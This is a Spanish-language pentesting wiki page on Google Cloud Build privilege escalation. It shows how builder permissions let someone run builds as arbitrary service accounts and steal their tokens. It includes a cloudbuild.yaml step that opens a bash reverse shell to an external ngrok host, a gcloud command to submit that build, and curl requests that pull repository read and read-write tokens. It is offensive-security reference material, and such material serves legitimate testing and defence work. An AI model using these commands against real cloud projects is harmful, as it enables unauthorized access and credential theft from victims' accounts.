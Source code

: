 # GCP - Cloudbuild Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudbuild

Para más información sobre Cloud Build consulta:

{{#ref}}
../gcp-services/gcp-cloud-build-enum.md
{{#endref}}

### `cloudbuild.builds.create`, `iam.serviceAccounts.actAs`

Con este permiso puedes **enviar un cloud build**. La máquina de cloudbuild tendrá en su sistema de archivos por **defecto un token de la Service Account de cloudbuild**: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Sin embargo, puedes **indicar cualquier cuenta de servicio dentro del proyecto** en la configuración de cloudbuild.\
Por lo tanto, puedes hacer que la máquina exfiltre el token a tu servidor o **obtener un shell reverso dentro de ella y conseguir el token** (el archivo que contiene el token puede cambiar).

#### Explotación directa a través de gcloud CLI

1- Crea `cloudbuild.yaml` y modifica con los datos de tu listener.
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14965 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
2- Suba una compilación simple sin fuente, el archivo yaml y especifique el SA a utilizar en la compilación:
```bash
gcloud builds submit --no-source --config="./cloudbuild.yaml" --service-account="projects/<PROJECT>/serviceAccounts/<SERVICE_ACCOUNT_ID>@<PROJECT_ID>.iam.gserviceaccount.com
```
#### Usando la biblioteca gcloud de python
Puedes encontrar el script de explotación original [**aquí en GitHub**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) (pero la ubicación de donde está tomando el token no funcionó para mí). Por lo tanto, revisa un script para automatizar la [**creación, explotación y limpieza de un entorno vulnerable aquí**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) y un script de python para obtener un shell reverso dentro de la máquina cloudbuild y [**robarlo aquí**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (en el código puedes encontrar cómo especificar otras cuentas de servicio)**.**

Para una explicación más detallada, visita [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)


### `cloudbuild.repositories.accessReadToken`

Con este permiso, el usuario puede obtener el **token de acceso de lectura** utilizado para acceder al repositorio:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
### `cloudbuild.repositories.accessReadWriteToken`

Con este permiso, el usuario puede obtener el **token de acceso de lectura y escritura** utilizado para acceder al repositorio:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
### `cloudbuild.connections.fetchLinkableRepositories`

Con este permiso puedes **obtener los repos a los que la conexión tiene acceso:**
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{{#include ../../../banners/hacktricks-training.md}}
